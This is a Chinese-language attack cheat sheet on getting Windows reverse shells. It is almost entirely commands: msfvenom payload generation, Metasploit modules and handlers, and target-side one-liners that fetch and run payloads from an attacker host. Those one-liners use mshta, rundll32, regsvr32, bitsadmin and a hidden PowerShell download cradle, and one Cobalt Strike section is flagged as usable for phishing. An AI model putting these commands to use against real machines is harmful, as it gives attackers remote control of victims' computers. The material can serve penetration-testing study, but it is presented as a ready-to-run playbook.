 # Windows反弹shell

## 一、NC

## 二、HTA（Mshta）

### Metasploit HTA WebServer

通过`Metasploit`的`HTA Web Server`模块发起`HTA`攻击

**攻击机操作**

```bash
msfconsole
#以下均在msf框架中执行，需要输入的命令是`>`后面的命令
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set srvhost 192.168.1.106	#攻击机的IP，也就是接收shell的ip
msf6 exploit(windows/misc/hta_server) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > set target 0	#这里看option选项里的列举情况
msf6 exploit(windows/misc/hta_server) > run -j
```

生成hta脚本网址：`http://192.168.1.106:8080/qOe1oSKv.hta`（执行`run -j`命令后会出现路径及文件名）

**靶机操作**

```powershell
mshta http://192.168.1.106:8080/qOe1oSKv.hta #上面生成hta脚本的网址
```

### Msfvenom生成HTA脚本

使用`Msfvenom`生成`HTA`脚本

**攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=9999 -f hta-psh -o 1.hta	#通过msfvenom生成hta脚本

python3 -m http.server	#用python3启动一个简易http服务，一定要在hta脚本生成的目录下启动

#或通过python2启动也可以
python2 -m SimpleHTTPServer
```

再打开一个终端，进入`msfconsole`

```bash
msf6 > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.106 -P 9999	#注意要和msfvenom命令中的lhost和lport对应
```

**靶机操作**

```bash
mshta.exe http://192.168.1.106:8000/1.hta	#和注意文件名1.hta要和msfvenom命令中 -o 后面的文件名一致
```

### CobaltStrike生成HTA脚本

> 首先开启一个监听器，有一个头戴式耳机的图标，进入后更改两个ip地址为teamserver的IP
>
> Attack > Packages > Html Appactions > 选择上一步创建的监听器 > Powershell > Host Files > 选择生成的 evil.hta 文件 > 生成托管文件的URL地址
>
> 注意配置IP和端口号
>
> 在攻击机上访问托管文件的url地址，下载文件后进行运行即可
>
> **可钓鱼**

## 三、dll（Rundll32）

Rundll32.exe与Windows操作系统相关，它允许调用从DLL导出的函数(16位或32位)，并将其存储在适当的内存库中。

### Msfvenom生成DLL执行

**攻击机操作**

```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=9999 -f dll > 1.dll
#-a为指定系统位数（32or64），--platform指定操作系统，-p为指定payload，LHOST指定接收shell的IP，LPORT设置为攻击机监听端口，-f指定输出格式，> 后面为文件名

#然后启动msf，用handler开启监听
msfconsole
msf > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.106 -P 9999
```

**靶机操作**

需要管理员权限开启cmd

```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.106:8000/1.dll',\"c:\1.dll\")"
#这里DownloadFile后面的网址在攻击机执行完msfvenom命令后会有提示，按照提示更改即可
rundll32 shell32.dll,Control_RunDLL C:\1.dll
```

#### 利用smb远程加载

**攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=9999 -f dll -o 1.dll

impacket-smbserver dll /root/#这里的/root/是smb服务的目录
```

**靶机操作**

```bash
rundll32.exe shell32.dll,Control_RunDLL \\192.168.1.106\dll\1.dll
```

靶机执行完操作后在攻击机的msf中可以收到会话，输入`sessions`后查看对应的session id，然后通过`sessions [id]`命令获取shell。

### Metasploit SMB Delivery

通过Metasploit的SMB Delivery模块发起Rundll32攻击

**攻击机操作**

```bash
msfconsole
msf > use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.106
msf exploit(windows/smb/smb_delivery) > run –j
```

**靶机操作**

```bash
rundll32.exe \\192.168.1.106\GylDS\test.dll,0 #路径在攻击机执行run命令后会得到
```

#### 利用Rundll32加载hta反弹shell

**攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=9999 -f hta-psh > 1.hta
python3 -m http.server
```

**靶机操作**

```bash
bitsadmin /transfer shell http://192.168.1.106/1.hta C:\windows\temp\1.hta
rundll32.exe url.dll,OpenURL 1.hta

cd :C:\windows\temp\
rundll32.exe url.dll,OpenURL 1.hta
```

### CobaltStrike生成dll

> Attack(攻击)->Package(生成后门)->Windows可执行程序(Stageless)->选择监听器、输出格式为Windows DLL。
>
> 然后通过上述某种方法传到靶机上并运行。CS收到会话。

## Regsvr32

> Regsvr32.exe是一个命令行应用程序，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，如Windows注册表中的dll和ActiveX控件。
>
> Regsvr32.exe安装在Windows XP和Windows后续版本的`%systemroot%\System32`文件夹中

### Metasploit Web Delivery

**攻击机操作**

```bash
msfconsole
msf > use exploit/multi/script/web_delivery
msf exploit (web_delivery)> set srvhost 192.168.1.106
msf exploit (web_delivery)> set target 3 #可以show targets，选择regsvr32对应的编号
msf exploit (web_delivery)> set payload windows/x64/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.106
msf exploit (web_delivery)> run –j
```

**靶机操作**

```bash
regsvr32 /s /n /u /i:http://192.168.78.117:8080/NE67gb2mbfQt.sct scrobj.dll #这条命令msf在执行run后会出现提示
```

## PowerShell

### Msfvenom生成Powershell脚本

**攻击机**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=9999 -f psh-reflection -o 1.ps1

python3 -m http.server
```

再打开一个终端

```bash
msfconsole
msf6 > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.106 -P 9999	#注意要和msfvenom命令中的lhost和lport对应
```

**靶机操作**

```bash
powershell -windowstyle hidden -exec bypass -c "IEX (New-ObjectNet.WebClient).DownloadString('http://192.168.1.106/shell.ps1');1.ps1";
```

msf收到会话。